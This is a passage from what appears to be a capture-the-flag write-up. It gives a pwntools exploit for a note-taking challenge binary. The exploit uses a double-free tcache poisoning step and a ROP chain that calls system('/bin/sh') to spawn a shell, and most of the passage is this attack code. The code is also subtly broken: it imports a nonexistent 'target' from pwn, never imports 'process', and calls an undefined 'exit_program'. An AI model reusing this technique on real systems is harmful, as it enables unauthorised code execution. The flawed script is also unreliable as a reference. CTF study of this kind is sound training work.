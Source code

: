 Since we already have an arbitrary write starting at the return address of `menu_loop` from our previous exploit, we can simply change the `written_data` to contain this ROP chain.

```python
pop_rdi = 0x401893
bin_sh = libc_base + 0x17fc96

written_data = p64(pop_rdi) + p64(bin_sh) + p64(system)
```

This gives us a final exploit of

```python
from pwn import target, ELF, p64, PTY

target = ELF('./chal')
libc = ELF('libc.so.6')
io = process(target.path, stdin=PTY, stdout=PTY)

def create_note(data: bytes):
	io.recvuntil(b'> ')
	io.sendline(b'2')
	io.recvuntil(b': ')
	io.sendline(data)

def delete_note(index: int):
	io.recvuntil(b'> ')
	io.sendline(b'4')
	io.recvuntil(b': ')
	io.sendline(str(index).encode('utf-8'))

io.recvuntil(b'0x')
choice_addr_hex = io.recvline()[:-1].decode('utf-8')
choice_addr = int(choice_addr_hex, 16)
io.recvuntil(b'0x')
puts_addr_hex = io.recvline()[:-1].decode('utf-8')
puts_addr = int(puts_addr_hex, 16)

libc_base = puts_addr - libc.sym['puts']

system = libc_base + libc.sym['system']
pop_rdi = 0x401893
bin_sh = libc_base + 0x17fc96

forged_chunk = choice_addr + 20
written_data = p64(pop_rdi) + p64(bin_sh) + p64(system)

create_note(b'whatever')
delete_note(0)
delete_note(0)
create_note(p64(forged_chunk))
create_note(b'')
create_note(written_data)
exit_program()

io.interactive()
```
